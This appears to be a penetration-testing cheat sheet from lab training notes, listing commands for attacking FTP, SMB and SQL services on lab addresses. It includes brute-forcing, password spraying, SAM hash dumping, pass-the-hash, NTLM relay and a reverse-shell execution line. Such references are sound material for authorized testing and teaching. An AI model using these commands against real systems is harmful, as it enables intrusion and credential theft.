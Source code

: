 ## Attacking FTP

|**Command**|**Description**|
|-|-|
| `ftp 192.168.2.142` | Connecting to the FTP server using the `ftp` client. |
| `nc -v 192.168.2.142 21` | Connecting to the FTP server using `netcat`. |
| `hydra -l user1 -P /usr/share/wordlists/rockyou.txt ftp://192.168.2.142` | Brute-forcing the FTP service. |


---
## Attacking SMB

|**Command**|**Description**|
|-|-|
| `smbclient -N -L //10.129.14.128` | Null-session testing against the SMB service. |
| `smbmap -H 10.129.14.128 -p 445` | Network share enumeration using `smbmap`. |
| `smbmap -H 10.129.14.128 -R notes` | Recursive network share enumeration using `smbmap`. |
| `smbmap -H 10.129.14.128 --download "notes\note.txt"` | Download a specific file from the shared folder. |
| `smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"` | Upload a specific file to the shared folder. |
| `rpcclient -U'%' 10.10.110.17` | Null-session with the `rpcclient`. |
| `./enum4linux-ng.py 10.10.11.45 -A -C` | Automated enumeratition of the SMB service using `enum4linux-ng`. |
| `crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!'` | Password spraying against different users from a list. |
| `impacket-psexec administrator:'Password123!'@10.10.110.17` | Connect to the SMB service using the `impacket-psexec`. |
| `crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec` | Execute a command over the SMB service using `crackmapexec`. |
| `crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users` | Enumerating Logged-on users. |
| `crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam` | Extract hashes from the SAM database. |
| `crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE` | Use the Pass-The-Hash technique to authenticate on the target host. |
| `impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146` | Dump the SAM database using `impacket-ntlmrelayx`. |
| `impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <base64 reverse shell>` | Execute a PowerShell based reverse shell using `impacket-ntlmrelayx`. |

---
## Attacking SQL Databases

|**Command**|**Description**|
|-|-|
| `mysql -u julio -pPassword123 -h 10.129.20.13` | Connecting to the MySQL server. |
| `sqlcmd -S SRVMSSQL\SQLEXPRESS -U julio -P 'MyPassword!' -y 30 -Y 30` | Connecting to the MSSQL server.  |
| `sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h` | Connecting to the MSSQL server from Linux.  |
| `sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h` | Connecting to the MSSQL server from Linux while Windows Authentication mechanism is used by the MSSQL server. |
| `mysql> SHOW DATABASES;` | Show all available databases in MySQL. |
| `mysql> USE htbusers;` | Select a specific database in MySQL. |